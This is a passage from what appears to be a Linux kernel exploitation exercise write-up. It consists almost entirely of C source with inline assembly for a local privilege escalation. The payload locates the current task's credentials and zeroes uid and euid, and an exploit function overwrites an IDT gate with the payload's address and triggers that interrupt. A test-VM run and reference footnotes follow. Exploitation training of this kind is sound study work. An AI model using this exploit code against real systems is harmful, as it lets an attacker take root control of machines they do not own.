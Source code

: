```c
                "movq %rsp, %rax;"                              /* get SP*/
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
	rest();
}

void exploit(){
	struct idtr idtr;
	struct idtd *idtd;
	asm("sidt %0" : "=m" (idtr));
	idtd = (struct idtd *)idtr.base;

	SET_IDT_GATE(idtd[0x7f], (uint64_t)&payload);
	asm("int $0x7f;");
	return;
}

int main() {
	int i;

	save();

	printf("exploit: %llx\n", (uint64_t)&exploit);
	printf("payload: %llx\n", (uint64_t)&payload);

	unsigned long *mem = mmap((void*)0x35000000, 0x10000,
	PROT_READ | PROT_WRITE | PROT_EXEC, 0x32 | MAP_POPULATE | MAP_FIXED | MAP_GROWSDOWN, -1, 0);

	// payload((struct idtd *)idtr.base);
	getuid(); // dummy code for change rip to &exploit

	printf("nooooo...\n");


	return 0;
}
```

**TestVM**
```sh
test@ubuntu:~/exercises/arbitrary_write$ ./ex3
exploit: 400703
payload: 4006ca
```


[^rings]: [PRIVILEGE LEVEL(RING 0, RING 3)] <https://elfmfl.tistory.com/2>
[^ioctl]: [ioctl 정리] <http://blog.naver.com/PostView.nhn?blogId=jyh3211&logNo=40131890810>
[^find]: [linux manpage] <http://man7.org/linux/man-pages/man1/find.1.html>
[^desc_ptr]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/kernel/idt.c#L171>
[^idt_table]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc.h#L44>
[^gate_desc]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L88>
[^desc_struct]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L16>